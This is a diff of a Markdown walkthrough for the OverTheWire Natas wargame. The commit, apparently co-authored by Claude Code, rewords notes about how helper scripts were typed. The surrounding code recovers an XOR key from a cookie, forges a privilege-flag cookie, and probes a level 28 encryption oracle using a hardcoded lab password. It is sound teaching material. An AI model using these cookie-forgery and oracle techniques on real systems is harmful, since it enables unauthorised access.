

Before and after one commit to jaher/overthewire-solutions, a Markdown page: natas-solutions.md, 3 parts joined by grey strips. Shown at 97% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Natas solutions: transcript notes describe the actual vim-typed helper files (level named, files match games/natas.json)
Co-Authored-By: Claude Code <noreply@anthropic.com>

````diff
--- a/natas-solutions.md
+++ b/natas-solutions.md
@@ -287,8 +286,8 @@ Verification rule used throughout: a password is accepted only if a request to
    ```
 2. **Invert the pipeline, last operation first.** The encoder is base64 → reverse → hex. To undo it: hex-decode → reverse → base64-decode.
    ```
-   _Transcript note:_ this one-liner is typed into `vim` as `/tmp/n8_1c.py` and run as `python3 /tmp/n8_1c.py`.
-  python3 -c "import base64;h='3d3d516343746d4d6d6c315669563362';s=bytes.fromhex(h).decode()[::-1];print(base64.b64decode(s).decode())"
+   _Transcript note:_ the typed file is exactly the one-liner below, run as `python3 /tmp/n8_1c.py`.
+   python3 -c "import base64;h='3d3d516343746d4d6d6c315669563362';s=bytes.fromhex(h).decode()[::-1];print(base64.b64decode(s).decode())"
 
    # oubWYf2kBq
    ```
@@ -406,7 +405,7 @@ _Transcript note:_ this is typed into `vim` chunk by chunk in the level transcri
    ```
 3. **Recover the key from known plaintext.** The default object is `{"showpassword":"no","bgcolor":"#ffffff"}` — we know it exactly. XOR is its own inverse, so XORing the decoded cookie with that plaintext gives the keystream; because the key repeats, the first four bytes reveal it:
    ```
-_Transcript note:_ this is typed into `vim` chunk by chunk in the level transcript (saved as `/tmp/n<level>_<step>.py`) before it runs.
+_Transcript note:_ this helper is typed stage by stage into `vim` in the level transcript (level 11's transcript) before it runs; the heredoc below is the same code.
    python3 - <<'PY'
    import base64, urllib.parse
    ct = base64.b64decode(urllib.parse.unquote('EGAgHwQ1IxYYMSQYGSZxTUksPFVHYDEQCC0%2FGBlgaVVIJDURDSQ1VRY%3D'))
@@ -418,7 +417,7 @@ _Transcript note:_ this is typed into `vim` chunk by chunk in the level transcri
    The recording prints `recovered key: b'kBSw'`. (The trailing bytes of the plaintext/ciphertext pair are shorter than the JSON; only the first key period is needed.)
 4. **Forge the new cookie.** Encrypt `{"showpassword":"yes","bgcolor":"#ffffff"}` with the recovered key, base64-encode, and URL-encode it for the header:
    ```
-_Transcript note:_ this is typed into `vim` chunk by chunk in the level transcript (saved as `/tmp/n<level>_<step>.py`) before it runs.
+_Transcript note:_ this helper is typed stage by stage into `vim` in the level transcript (level 11's transcript) before it runs; the heredoc below is the same code.
    python3 - <<'PY'
    import base64, urllib.parse, json
    key = b'kBSw'
@@ -1215,7 +1214,7 @@ _Transcript note:_ this is typed into `vim` chunk by chunk in the level transcri
 
 - **Commands:**
   ```
-_Transcript note:_ this is typed into `vim` chunk by chunk in the level transcript (saved as `/tmp/n<level>_<step>.py`) before it runs.
+_Transcript note:_ this helper is typed stage by stage into `vim` in the level transcript (level 28's transcript) before it runs; the heredoc below is the same code.
   python3 - <<'PY'
   import urllib.request, urllib.parse, base64, urllib.error
   auth = "Basic " + base64.b64encode(b"natas28:Hy5wZLfVml7jnGmuvfbilRTUUkk29Dv3").decode()
@@ -1242,7 +1241,7 @@ _Transcript note:_ this is typed into `vim` chunk by chunk in the level transcri
       raw = ct_for("a" * n)
       print("   a*%-2d ->" % n, [raw[i:i+16].hex()[:12] for i in range(0, len(raw), 16)])
   PY
-_Transcript note:_ this is typed into `vim` chunk by chunk in the level transcript (saved as `/tmp/n<level>_<step>.py`) before it runs.
+_Transcript note:_ this helper is typed stage by stage into `vim` in the level transcript (level 28's transcript) before it runs; the heredoc below is the same code.
   python3 - <<'PY'
   import urllib.request, urllib.parse, base64, urllib.error
   auth = "Basic " + base64.b64encode(b"natas28:Hy5wZLfVml7jnGmuvfbilRTUUkk29Dv3").decode()
````
Also changed, not shown: other parts of natas-solutions.md (+16 -17 lines).
